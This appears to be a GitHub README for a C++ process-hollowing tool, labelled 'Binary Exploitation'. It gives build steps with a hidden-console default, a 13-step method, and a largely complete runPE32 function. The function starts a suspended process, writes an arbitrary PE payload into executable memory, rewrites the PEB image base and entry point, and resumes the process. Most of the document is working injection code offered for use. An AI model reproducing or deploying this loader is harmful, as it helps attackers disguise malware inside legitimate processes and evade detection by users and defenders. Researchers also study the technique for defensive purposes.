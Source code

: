 # Process Hollowing
[![](https://img.shields.io/badge/Category-Binary%20Exploitation-E5A505?style=flat-square)]() [![](https://img.shields.io/badge/Language-C++-E5A505?style=flat-square)]() [![](https://img.shields.io/badge/Version-1.0-E5A505?style=flat-square&color=green)]()

## Building

```
> cmake .
```

To show(1)/hide(2) console window when running executable:

```
- Properties
  - Linker
    - System
      - SubSystem: 
	1. Console (/SUBSYSTEM:CONSOLE)
	2. Windows (/SUBSYSTEM:WINDOWS)
    - Advanced
      - Entry Point
	1. (BLANK)
	2. mainCRTStartup
```

Default: hidden

## Methodology

1. Create and suspend target process
2. Get thread context of target process
3. Get image base of target process
4. Unmap target process memory space (Optional)
5. Allocate temporary memory space for custom payload
6. Change image base for symbolic imports
7. Store payload in allocated temporary memory space
8. Ensure image base of process is the same
9. Overwrite target process memory space with payload
10. Free allocated temporary memory space
11. Overwrite image base in headers
12. Set new Entrypoint
13. Resume target process

```Cpp
/*
runPE32:
    targetPath - application where we want to inject
    payload - buffer with raw image of PE that we want to inject
    payload_size - size of the above

    desiredBase - address where we want to map the payload in the target memory; NULL if we don't care. 
        This address will be ignored if the payload has no relocations table, because then it must be mapped to it's original ImageBase.
    unmap_target - do we want to unmap the target? (we are not forced to do it if it doesn't disturb our chosen base)
*/
bool runPE32(LPWSTR targetPath, BYTE* payload, SIZE_T payload_size, ULONGLONG desiredBase = NULL, bool unmap_target = false)
{
    load_ntdll_functions();

    //Load payload:
    IMAGE_NT_HEADERS32* payload_nt_hdr32 = get_nt_hrds32(payload);
    const ULONGLONG oldImageBase = payload_nt_hdr32->OptionalHeader.ImageBase;
    SIZE_T payloadImageSize = payload_nt_hdr32->OptionalHeader.SizeOfImage;

    //create target process:
    create_new_process1(targetPath, pi);

    //get initial context of the target:
    memset(&context, 0, sizeof(WOW64_CONTEXT));
    context.ContextFlags = CONTEXT_INTEGER;
    Wow64GetThreadContext(pi.hThread, &context);

    //get image base of the target:
    DWORD PEB_addr = context.Ebx;
    ReadProcessMemory(pi.hProcess, LPVOID(PEB_addr + 8), &targetImageBase, sizeof(DWORD), NULL);

    //try to allocate space that will be the most suitable for the payload:
    LPVOID remoteAddress = VirtualAllocEx(pi.hProcess, (LPVOID)desiredBase, payloadImageSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    //change the image base saved in headers - this is very important for loading imports:
    payload_nt_hdr32->OptionalHeader.ImageBase = static_cast<DWORD>((ULONGLONG)remoteAddress);

    //Prepare the payload image in the local memory, then copy it into the space reserved in the target process
    LPVOID localCopyAddress = VirtualAlloc(NULL, payloadImageSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    copy_pe_to_virtual_l(payload, payload_size, localCopyAddress);

    //if the base address of the payload changed, we need to apply relocations:
    if ((ULONGLONG)remoteAddress != oldImageBase) {
        apply_relocations((ULONGLONG)remoteAddress, oldImageBase, localCopyAddress);
    }

    SIZE_T written = 0;
    // paste the local copy of the prepared image into the reserved space inside the remote process:
    WriteProcessMemory(pi.hProcess, remoteAddress, localCopyAddress, payloadImageSize, &written);

    //free the localy allocated copy
    VirtualFree(localCopyAddress, payloadImageSize, MEM_FREE);

    //overwrite ImageBase stored in PEB
    DWORD remoteAddr32b = static_cast<DWORD>((ULONGLONG)remoteAddress);
    WriteProcessMemory(pi.hProcess, LPVOID(PEB_addr + 8), &remoteAddr32b, sizeof(DWORD), &written);

    //overwrite context: set new Entry Point
    DWORD newEP = static_cast<DWORD>((ULONGLONG)remoteAddress + payload_nt_hdr32->OptionalHeader.AddressOfEntryPoint);
    context.Eax = newEP;
    Wow64SetThreadContext(pi.hThread, &context);

    //start the injected:
    printf("--\n");
    ResumeThread(pi.hThread);
    return true;
}
```

## Reference

- [RunPE](https://github.com/hasherezade/demos/tree/master/run_pe)

- [C#-RunPE](https://github.com/NYAN-x-CAT/CSharp-RunPE)
